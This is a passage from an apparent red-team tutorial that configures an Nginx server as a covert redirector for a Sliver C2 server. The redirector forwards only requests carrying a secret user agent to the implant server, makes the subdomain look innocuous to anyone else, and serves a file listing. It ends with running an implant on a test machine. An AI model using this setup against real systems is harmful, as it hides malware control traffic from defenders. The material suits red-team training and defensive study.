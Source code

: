 ```text
    ssl_certificate_key /etc/letsencrypt/live/api.websitename.com/privkey.pem; # managed by Certbot
    include /etc/letsencrypt/options-ssl-nginx.conf; # managed by Certbot
    ssl_dhparam /etc/letsencrypt/ssl-dhparams.pem; # managed by Certbot

}

server {
    listen 80;
    listen [::]:80;
    server_name api.websitename.com;

    location / {
        return 301 https://websitename.com;
    }

    location ^~ /some/path {
            if ($http_user_agent != "Chrome/5.0 (erm; Windows 11; super legit user agent string)"){
                return 301 https://websitename.com;
            }

            proxy_pass http://[Sliver private IP];
            proxy_redirect off;
            proxy_set_header Host $host;
            proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        }

    location /another/path {
            alias /www/html/files;
            autoindex on;
    }
}
```

Replace `Sliver private IP, api.websitename.com, /some/path, /another/path, Chrome/5.0 (erm; Windows 11; super legit user agent string)` with appropriate values for your setup. This configuration does the following things:

1. If a request is to `/some/path`, from our custom user agent, *forward the request to the Sliver server*
2. If a request is to `another/path`, display a listing of the `/www/html/files` directory, (used to store things I might want to download)
3. Else; forward the request to `websitename.com`

Upon normal browsing, the API subdomain looks innocuous, but implant traffic will be redirected to the Sliver server. Start/enable Nginx with `systemctl enable nginx`, `systemctl start nginx`. Try browsing to `api.websitename.com/some/path`, it should redirect you to `websitename.com`.

### Testing! Yippee

Run the previously generated implant on a test machine; if everything worked, you should see a session pop from your sliver client!
